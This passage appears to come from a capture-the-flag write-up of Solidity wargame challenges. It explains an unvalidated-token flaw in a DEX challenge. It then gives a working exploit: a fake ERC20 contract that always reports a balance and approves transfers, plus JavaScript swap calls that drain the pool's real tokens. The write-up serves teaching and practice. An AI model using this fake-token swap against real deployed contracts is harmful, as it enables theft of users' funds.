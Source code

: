```solidity
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

Here the swap tokens are not validated properly, we could set up a dummy token and make the contract believe that we hold tokens on the contract. 

> #### Solution:
> - We could swap tokens using our dummy token contract.
> ```solidity
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> contract dexExp {
> 
>     function balanceOf(address account) external view returns (uint256){
>         return 100;
>     }
> 
>     function transferFrom(address from, address to, uint256 amount) external returns (bool) {
>         return true;
>     }
> }
> ```
> - We could do swaps with this token address.
> ```js
> exp = "0xe30bb4f557e4aa4d669992727cb3293609a345b5"; // replace the address with your exploit contract address
> token1 = await contract.token1();
> token2 = await contract.token2();
> await contract.swap(exp, token1, 100);
> await contract.swap(exp, token2, 100);
> ```

<hr>

## 24 Puzzle Wallet
We need to become admin of the contract.
